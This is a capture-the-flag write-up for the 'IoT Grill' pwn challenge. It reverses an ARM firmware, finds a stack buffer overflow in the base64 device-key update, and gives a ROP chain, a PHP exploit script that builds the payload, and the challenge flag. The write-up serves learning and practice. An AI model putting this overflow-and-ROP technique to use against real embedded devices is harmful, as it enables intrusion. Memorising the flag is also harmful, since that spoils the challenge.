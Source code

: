 # IoT Grill - BalCCon2k20 CTF (pwn, 497p, 1 solved)
## Introduction

IoT Grill is a pwn task.

An archive containing an ARM firmware and a qemu script to run it is provided.

The fimrware simulates a connected grill. It is possible to change the
temperature settings, start the grill and update the device key.

## Reverse engineering

Reversing an ARM firmware can be time consuming.

Fortunately, looking at cross references to strings such as `Device key` helps
find the menu function. It also helps identify the `printk` function.

By looking at the cross references it is possible to identify the main function.

The `Poweroff` menu option leaves the function.

The `Grill Cevape` menu option prints a string.

The `Change temperature setting` changes the temperature between 50 and 500
degrees.

The `Update device key` updates the device key. There is special case if the key
starts with `B64:` : it will decode the input as base64.

```c
char  *string;
size_t size;
size_t clearSize;
char   buffer[0x24];

printk("Enter a new device key> ");
string = readString();
size   = strlen(string);

if(0 == strncmp(string, "B64:", 4)) {
	/* Don't write, but calculate the size and write in in clearSize */
	b64_decode(NULL, 0, &clearSize, string + 4, size - 4);

	/* Decode into buffer */
	b64_decode(buffer, clearSize, &clearSize, string + 4, size - 4);
} else {
	/* ... */
}
```

This function is vulnerable to a classic stack-based buffer overflow.

## Exploitation

This challenge was solved by using a simple ROP chain that calls `printk(flag)`.

The ROP chain is the following :
```
0x00001458: pop {r0, pc}
0x00004043: "BCTF{flag}"

0x00002CB0: printk
```

The only particularity of the ARM architecture is that instructions in THUMBS
mode must have their least significant bit set.

The `changeKey` function returns using `pop {r4, r5, r6, r7, pc}`. This has to
be taken into account when padding the stack.


**Flag**: `BCTF{c0ngr4ts_y0u_put_a_gr1ll_on_th3_n3t_and_n0w_cevap3_ar3_burn3d}`

## Appendices
### pwn.php

```php
<?php
const POPR0   = 0x00001458 | 1;
const FLAG    = 0x00004043;
const PRINTK  = 0x00002CB0 | 1;

$payload  = str_repeat("A", 0x24);
$payload .= pack("V*",
	0x44444444, 0x55555555, 0x66666666, 0x77777777,
	POPR0, FLAG,
	PRINTK,
);

printf("B64:%s\n", base64_encode($payload));
```